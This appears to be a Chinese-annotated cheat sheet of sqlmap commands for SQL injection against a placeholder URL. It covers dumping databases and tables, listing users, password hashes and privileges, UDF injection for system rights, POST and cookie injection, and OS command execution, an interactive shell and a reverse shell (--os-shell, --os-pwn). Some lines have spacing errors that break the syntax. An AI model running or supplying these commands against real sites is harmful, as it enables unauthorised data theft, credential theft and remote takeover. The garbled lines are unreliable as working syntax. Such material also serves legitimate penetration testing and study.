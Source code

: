 sqlmap -u "http://url/news?id=1" --level=3 --smart --dbms "Mysql" --dump -C "column_name" -T "table_name" -D "db_name" -v 0 #获取字段内容

******************信息获取******************

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --users #列数据库用户

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --dbs#列数据库

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--passwords #数据库用户密码

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--passwords-U root -v 0 #列出指定用户数据库密码

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --dump-all -v 0 #列出所有数据库所有表

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--privileges #查看权限

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--privileges -U root #查看指定用户权限

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --is-dba -v 1 #是否是数据库管理员

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --roles #枚举数据库用户角色

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--udf-inject #导入用户自定义函数（获取系统权限！）

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--dump-all --exclude-sysdbs -v 0 #列出当前库所有表

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --union-check #是否支持union 注入

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--union-cols #union 查询表记录

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --union-test #union 语句测试

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --union-use --banner #采用union 注入

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--union-test --union-tech orderby #union 配合 order by

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--method "POST" -- data "id=1&cat=2" #post注入

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--cookie "COOKIE_VALUE" #cookie注入

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"-b #获取banner信息

sqlmap -u "http://url/news?id=1" --level=3 --smart-v 1 -f #指纹判别数据库类型

sqlmap -u "http://url/news?id=1" --level=3 --smart--proxy"http://127.0.0.1:8118" #代理注入

sqlmap -u "http://url/news?id=1"--string"STRING_ON_TRUE_PAGE" #指定关键词

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--sql-shell #执行指定sql命令

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--os-cmd=whoami #执行系统命令

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--os-shell #系统交互shell

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--os-pwn #反弹shell

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--reg-read #读取win系统注册表

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --dbs-o "sqlmap.log" #保存进度
